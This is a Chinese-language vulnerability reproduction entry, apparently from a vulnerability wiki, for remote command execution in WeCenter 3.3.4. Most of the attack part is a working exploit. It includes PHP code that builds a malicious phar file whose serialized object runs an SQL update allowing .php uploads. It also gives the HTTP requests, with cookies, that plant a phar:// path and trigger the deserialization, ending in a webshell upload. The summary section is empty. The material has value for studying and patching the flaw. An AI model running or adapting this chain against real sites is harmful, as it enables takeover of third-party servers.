 WeCenter 3.3.4 远程命令执行
===========================

一、漏洞简介
------------

二、漏洞影响
------------

WeCenter 3.3.4

三、复现过程
------------

### 远程命令执行

**WeCenter** 后台的 **允许的附件文件类型**
处，设置了用户可上传的文件类型后缀。而这个配置是写在数据库中的，我们可以利用前面的任意
**SQL** 语句执行的 **POP** 链，往字段中添加 **php** 文件后缀。

![](/Users/aresx/Documents/VulWiki/.resource/WeCenter3.3.4远程命令执行/media/rId25.png)

### poc

    <?php
    class AWS_MODEL
    {
        private $_shutdown_query = array();

        public function __construct($_shutdown_query)
        {
            $this->_shutdown_query = $_shutdown_query;
        }
    }

    $sql = array('update aws_system_setting set value=\'s:45:"jpg,jpeg,png,gif,zip,doc,docx,rar,pdf,psd,php";\' where varname=\'allowed_upload_types\'');
    $evilobj = new AWS_MODEL($sql);
    // phar.readonly无法通过该语句进行设置: init_set("phar.readonly",0);
    $filename = 'poc.phar';// 后缀必须为phar，否则程序无法运行
    file_exists($filename) ? unlink($filename) : null;
    $phar=new Phar($filename);
    $phar->startBuffering();
    $phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>");
    $phar->setMetadata($evilobj);
    $phar->addFromString("foo.txt","bar");
    $phar->stopBuffering();
    ?>

### 利用

这里以 **RCE** 利用为例子。我们先用上面的 **EXP**
生成文件，然后找个可以上传文件的地方。这里要注意，一定不要选择在用户头像处上传。这里我们通过发起问题的地方来上传文件。

![](/Users/aresx/Documents/VulWiki/.resource/WeCenter3.3.4远程命令执行/media/rId28.png)

通过如下数据包，将 **headimgurl** 插入数据库中（ **Cookie**
前缀每个网站都不一样，修改成自己的即可）。

    GET /wecenter334/?/m/weixin/binding/ HTTP/1.1
    Host: 0.0.0.0
    Cookie: XDEBUG_SESSION=PHPSTORM; Hm_lvt_f8d0a8c400404989e195270b0bbf060a=1578564275,1578582675,1578897163; UM_distinctid=16fa7f15a43278-0cbd6002fe98e4-31730657-100200-16fa7f15a44385; xhj__Session=akl7d5skae6ebea69bp8r1b4f0; CNZZDATA1273638993=564846603-1579067041-%7C1579097763; xhj__user_login=NcIFvaZbkaxoQfofEGo%2FSOCyrXq5R0lZofmF9uqaJHO5tpVyag7GEP3fdh9hKvPUf8Xj4x3kkxgLXcf1L4wocSQu9BUquhozfdiEN2Hfg8vj73XVn1f09yLfbpfbVs7K; xhj__WXConnect={"access_token":{"openid":1},"access_user":{"headimgurl":"phar:\/\/uploads\/question\/20200116\/f39510a7e8e47e3e4dcabbadeedd12f7.gif","nickname":"mochazz"}}
    Connection: close
    $wx = array(
        'access_token' => array('openid'=>1),
        'access_user'  => array('headimgurl'=>'phar:///uploads/question/20200116/f39510a7e8e47e3e4dcabbadeedd12f7.gif','nickname'=>'mochazz')
    );
    echo json_encode($wx);

接着通过如下数据包触发 **phar反序列化** 执行 **SQL** 语句。

    GET /wecenter334/?/account/ajax/synch_img/ HTTP/1.1
    Host: 0.0.0.0
    Cookie: XDEBUG_SESSION=PHPSTORM; Hm_lvt_f8d0a8c400404989e195270b0bbf060a=1578564275,1578582675,1578897163; UM_distinctid=16fa7f15a43278-0cbd6002fe98e4-31730657-100200-16fa7f15a44385; xhj__Session=qb72k9k1sl53gqibbg53nf32o1; CNZZDATA1273638993=564846603-1579067041-%7C1579137884; xhj__user_login=N9hSYaQOjPMdtxOXo9jQuCVQSykmK88gl3DTI4AmL%2BnhLpgnHFGGSHkzxAPYaVMbXo%2FAndADc%2FaD0wytUEK71YrLmxWCuEZDCSwn9b0ApyOpcIKa6E4cOotHqZpZwVq%2B
    Connection: close

现在，我们就可以随意上传 **webshell** 了。

![](/Users/aresx/Documents/VulWiki/.resource/WeCenter3.3.4远程命令执行/media/rId29.png)

image
